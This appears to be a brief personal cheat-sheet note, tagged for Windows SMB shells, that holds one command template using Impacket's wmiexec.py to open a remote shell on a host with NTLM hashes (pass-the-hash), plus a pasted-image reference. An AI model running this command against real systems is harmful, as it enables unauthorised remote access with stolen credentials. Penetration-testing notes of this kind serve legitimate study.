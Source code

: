 #smb/shell #shell #windows/smb 
![[Pasted image 20240909124738.png]]

```
wmiexec.py username@ip -hashes NT:LM 
```